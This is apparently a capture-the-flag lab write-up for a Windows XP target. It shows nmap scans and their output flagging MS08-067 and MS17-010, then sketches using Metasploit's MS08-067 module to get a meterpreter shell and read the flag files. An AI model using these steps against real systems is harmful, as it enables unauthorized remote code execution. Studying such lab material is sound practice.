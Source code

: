 # Solution


As usual we start the enumeration
```
nmap -sC -sV -Pn -oN nmap-initial 10.10.10.4
```

We have the samba ports open. We use nmap to scan for vulnerabilities in samba:
```
>nmap -sV --script=vuln -p 139,445 -Pn -oN nmap-vulns 10.10.10.4
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2020-12-28 19:38 CET
Stats: 0:00:39 elapsed; 0 hosts completed (1 up), 1 undergoing Script Scan
NSE Timing: About 99.62% done; ETC: 19:39 (0:00:00 remaining)
Nmap scan report for htb (10.10.10.4)
Host is up (0.25s latency).

PORT    STATE SERVICE      VERSION
139/tcp open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds Microsoft Windows XP microsoft-ds
Service Info: OSs: Windows, Windows XP; CPE: cpe:/o:microsoft:windows, cpe:/o:microsoft:windows_xp

Host script results:
|_samba-vuln-cve-2012-1182: SMB: Failed to receive bytes: ERROR
| smb-vuln-ms08-067: 
|   VULNERABLE:
|   Microsoft Windows system vulnerable to remote code execution (MS08-067)
|     State: LIKELY VULNERABLE
|     IDs:  CVE:CVE-2008-4250
|           The Server service in Microsoft Windows 2000 SP4, XP SP2 and SP3, Server 2003 SP1 and SP2,
|           Vista Gold and SP1, Server 2008, and 7 Pre-Beta allows remote attackers to execute arbitrary
|           code via a crafted RPC request that triggers the overflow during path canonicalization.
|           
|     Disclosure date: 2008-10-23
|     References:
|       https://technet.microsoft.com/en-us/library/security/ms08-067.aspx
|_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2008-4250
|_smb-vuln-ms10-054: false
|_smb-vuln-ms10-061: SMB: Failed to receive bytes: EOF
| smb-vuln-ms17-010: 
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
|           
|     Disclosure date: 2017-03-14
|     References:
|       https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/
|       https://technet.microsoft.com/en-us/library/security/ms17-010.aspx
|_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143

```

We it's vulnerable to remote code execution (ms08-067)

We search the exploit in metasploit
```
msfconsole
search ms08-067
```
We select the exploit and run it, setting the corresponding hosts and ports.  
We run the script and get a meterpreter shell.  
Then we can locate our flag files using:
```
search root.txt
search user.txt
```

We use the cat command to print the flags



